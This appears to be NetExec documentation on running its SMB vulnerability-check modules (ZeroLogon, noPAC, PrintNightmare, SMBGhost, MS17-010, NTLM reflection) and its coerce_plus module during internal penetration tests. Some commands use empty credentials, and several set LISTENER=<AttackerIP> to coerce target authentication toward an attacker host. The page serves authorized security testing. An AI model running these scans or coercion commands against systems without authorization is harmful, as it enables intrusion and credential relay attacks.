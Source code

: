 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

## Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

#### ZeroLogon

```bash
nxc smb <ip> -u '' -p '' -M zerologon
```

#### noPAC

```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

#### PrintNightmare

```bash
nxc smb <ip> -u '' -p '' -M printnightmare
```

#### SMBGhost

```bash
nxc smb <ip> -u '' -p '' -M smbghost
```

#### MS17-010 (Not tested outside LAB environment)

```bash
nxc smb <ip> -u '' -p '' -M ms17-010
```

#### NTLM reflection (CVE-2025-33073)

```bash
nxc smb <ip> -u 'user' -p 'pass' -M ntlm_reflection
```

{% hint style="warning" %}
You need credentials for CVE-2025-33073 vulnerability check.
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

## Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce\_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
Instead of using the `METHOD` option, you can use its short form `M`. Similarly, the argument `LISTENER` can be shortened to `L`.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`

